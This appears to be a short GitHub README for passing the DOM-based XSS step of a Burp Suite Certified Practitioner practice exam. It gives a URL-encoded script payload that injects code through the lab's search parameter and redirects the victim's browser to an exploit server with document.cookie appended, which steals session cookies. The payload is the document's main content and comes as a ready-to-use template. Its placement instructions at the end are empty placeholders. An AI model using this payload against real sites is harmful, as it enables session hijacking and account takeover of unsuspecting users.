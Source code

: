 # BurpPracticeExamXSS

https://www.youtube.com/watch?v=fNoX_9v6-aY

Note: the search parameter changes from time to time in the practice exam, so make sure to replace the ?find parameter in the script below to what ever your parameter is

```
<script>
location='https://xxx.web-security-academy.net/?find=burpdomxss%22%2C%22test%22%3A(window%5B%22document%22%5D%5B%22location%22%5D%3D%22https%3A%2F%2Fexploit-xxx%252eweb-security-academy%252enet%2F%3F%22%2Bwindow%5B%22document%22%5D%5B%22cookie%22%5D)%7D%2F%2F';
</script>
```

## Where exactly you must input your URL information and search parameter information into this script:

1  - the place of the URL LAB:
```
?
```
2  - The pace of the exploit URL server:
```
?
```
3  - Where you must input your search parameter: 
```
?
```
